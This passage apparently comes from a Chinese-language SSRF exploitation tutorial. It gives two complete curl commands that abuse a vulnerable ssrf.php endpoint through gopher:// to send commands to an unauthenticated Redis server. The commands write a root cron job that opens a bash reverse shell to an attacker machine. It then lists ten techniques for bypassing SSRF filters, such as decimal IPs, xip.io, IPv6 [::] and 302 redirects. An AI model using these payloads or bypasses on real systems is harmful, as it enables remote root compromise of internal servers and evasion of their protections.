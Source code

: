 

```
curl -v 'http://192.168.1.124:8000/ssrf.php?url=gopher://192.168.1.4:6379/__*1%0D%0A%247%0D%0ACOMMAND%0D%0A*3%0D%0A%243%0D%0Aset%0D%0A%245%0D%0Ashell%0D%0A%2464%0D%0A%0D%0A%0D%0A*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%3E%26%2Fdev%2Ftcp%2F192.168.110.141%2F4789%200%3E%261%0D%0A%0D%0A%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A%2Fvar%2Fspool%2Fcron%2F%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A*1%0D%0A%244%0D%0Asave'
```

 

构建Payload：

SSRF漏洞主机IP：192.168.0.2

Redis未授权主机IP：192.168.110.133

Kali linux攻击机器IP：192.168.110.141

```
curl -v 'http://192.168.0.2/ssrf.php?url=gopher://192.168.110.133:6379/_*1 %250d %250a %248%250d %250aflushall %250d %250a %2a3 %250d %250a %243%250d %250aset %250d %250a %241%250d %250a1 %250d %250a %2464%250d %250a %250d %250a %250a %250a %2a %2f1 %20%2a %20%2a %20%2a %20%2a %20bash %20-i %20%3E %26%20%2fdev %2ftcp %2f192.168.110.141 %2f6789 %200%3E %261%250a %250a %250a %250a %250a %250d %250a %250d %250a %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %243%250d %250adir %250d %250a %2416%250d %250a %2fvar %2fspool %2fcron %2f %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %2410%250d %250adbfilename %250d %250a %244%250d %250aroot %250d %250a %2a1 %250d %250a %244%250d %250asave %250d %250aquit %250d %250a'
```

 

# SSRF漏洞绕过方法

## 7.1.常用绕过方法

　　1.@　　　　　　　　　　http://abc.com@127.0.0.1

　　2.添加端口号　　　　　　http://127.0.0.1:8080

　　3.短地址　　　　　　　　https://0x9.me/cuGfD    推荐：http://tool.chinaz.com/tools/dwz.aspx、https://dwz.cn/

　　4.可以指向任意ip的域名　 xip.io               原理是DNS解析。xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1

　　5.ip地址转换成进制来访问 192.168.0.1=3232235521（十进制） 

　　6.非HTTP协议

　　7.DNS Rebinding

　　8.利用[::]绕过         http://[::]:80/ >>> http://127.0.0.1

　　9.句号绕过         127。0。0。1 >>> 127.0.0.1

　　10.利用302跳转绕过   使用[https://tinyurl.com生成302跳转地址](https://tinyurl.xn--com302-u20k9dv69h8r7bzc7cjyd/)

 